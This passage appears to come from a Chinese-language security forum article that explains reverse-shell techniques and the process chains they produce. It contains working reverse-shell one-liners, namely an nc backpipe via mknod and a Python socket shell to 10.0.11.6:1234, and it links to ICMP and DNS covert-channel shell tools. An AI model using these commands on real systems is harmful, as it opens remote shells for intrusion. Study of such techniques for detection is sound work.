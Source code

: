 ![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-e9a1eca8df0508bfacd628f1db29acbe567b52d8.png)

双向证明：

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-7d439e328d189aac2c303634bf204bfba19161a5.png)

#### mknod（双向）

```bash
mknod backpipe p; nc 10.0.11.6 1234 0<backpipe | /bin/bash 1>backpipe 2>backpipe
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-b7c1cb6626049e8b966ad0b9ef5a2208fe5c6c39.png)

双向证明：

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-59bc09bc097e155fa2f2649d989e1e5bf554d58c.png)

总的来说，0，1，2标准输入输出、错误输出流被指向pipe管道，管道指向到另一个进程会有一个对外的socket链接，中间或许经过多层管道，但最终被定向到的进程必有一个socket链接。

高级
--

### 1. 流量伪装

<https://github.com/krabelize/icmpdoor>  
<https://github.com/bdamele/icmpsh>  
[https://github.com/ahhh/Reverse\_DNS\_Shell](https://github.com/ahhh/Reverse_DNS_Shell)

#### Icmpdoor（单向）

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-85fa0f9a45b7b1d7eb017f6ac76ac5741c6ce73d.png)

进程链：

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-4a9437ba00dbd7b788980346d2b80ee2eab2246d.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-7d23d7c23696ba0d491f0694d8e76475c4d75a44.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-867fe9c778bd167eebf235899b5f85ee409980d6.png)

### 2. 标准输入由代码处理（无落地）（单向）

编程语言实现标准输入中转，重定向命令执行的输入到中转，标准输出和标准错误中转形式不限制。

```bash
python3 -c "exec(\"import socket, subprocess;s = socket.socket();s.connect(('10.0.11.6',1234))\nwhile 1:  proc = subprocess.Popen(s.recv(1024), stdout=subprocess.PIPE, stderr=subprocess.PIPE,shell=True);s.send(proc.stdout.read()+proc.stderr.read())\")"
```

首先建立了一个socket，然后进入死循环。循环里面，启动了一个shell进程，输入由socket控制，输出和误都指向一个管道。命令执行完后，将输出和错误通过socket发送出去

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-611fecb4a9ad01b651470bf448a7626732bda849.png)
